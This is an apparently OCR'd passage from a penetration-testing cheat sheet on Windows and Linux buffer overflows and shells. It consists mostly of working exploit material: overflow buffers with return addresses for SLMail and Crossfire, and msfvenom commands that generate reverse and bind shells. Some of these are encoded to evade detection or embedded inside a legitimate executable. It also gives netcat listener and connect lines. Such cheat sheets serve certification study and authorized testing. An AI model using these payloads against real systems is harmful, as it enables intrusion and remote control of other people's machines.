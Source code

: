 JMP ESP
00000000 FFE4 jmp esp

Run Mona in immunity log window to find (FFE4) XEF command

!mona find -s "\xff\xe4" -m slmfc.dll
found at 0x5f4a358f - Flip around for little endian format

buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390

MSFVenom to create payload
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"

Final Payload with NOP slide
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

Create a PE Reverse Shell
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f
exe -o shell_reverse.exe

Create a PE Reverse Shell and Encode 9 times with Shikata_ga_nai
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f
exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

Create a PE reverse shell and embed it into an existing executable
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

Create a PE Reverse HTTPS shell
msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe

Linux Buffer Overflows

Run Evans Debugger against an app
edb --run /usr/games/crossfire/bin/crossfire

ESP register points toward the end of our CBuffer
add eax,12
jmp eax
83C00C add eax,byte +0xc
FFE0 jmp eax

Check for “Bad Characters” Process of elimination - Run multiple times 0x00 - 0xFF

Find JMP ESP address
"\x97\x45\x13\x08" # Found at Address 08134597

crash = "\x41" * 4368 + "\x97\x45\x13\x08" + "\x83\xc0\x0c\xff\xe0\x90\x90"

msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai

Connect to the shell with netcat:
nc -v $ip 4444

Shells
Netcat Shell Listener
nc -nlvp 443

Spawning a TTY Shell - Break out of Jail or limited shell You should almost always upgrade your shell after taking control of an apache or www user. (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell ) (hint: sudo -l to see what you can run)
